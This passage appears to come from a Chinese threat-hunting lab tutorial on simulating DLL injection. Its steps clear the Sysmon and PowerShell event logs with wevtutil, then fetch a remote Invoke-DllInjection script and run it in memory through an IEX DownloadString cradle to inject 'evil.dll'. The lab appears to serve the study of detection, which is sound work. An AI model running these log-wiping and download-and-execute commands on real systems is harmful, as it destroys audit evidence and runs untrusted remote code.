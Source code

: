 [![](assets/1701606587-4805874552d1a13e50fde096f2161ede.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162739-2b859e4a-8523-1.png)

**3.2 执行注入**  
（1）开启 WireShark 捕获数据包。选择正确的网卡设备进行监听

（2）清除系统当前 Sysmon 和 PowerShell ScriptBlock 日志

```plain
以管理员身份打开 PowerShell 终端，运行以下两个命令：
```

```plain
wevtutil cl “Microsoft-Windows-Sysmon/Operational”wevtutil cl “Microsoft-Windows-PowerShell/Operational”
```

（3）准备 Powershell 脚本  
该脚本具备实现 DLL 注入的功能，目的是将 evil.dll 注入至目标进程。项目参考 PowerSpolit 或者 Faanross。以管理员打开 powershell 下载脚本并注入内存，操作如下：

```plain
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/faanross/threat.hunting.course.01.resources/main/Invoke-DllInjection-V2.ps1')
```
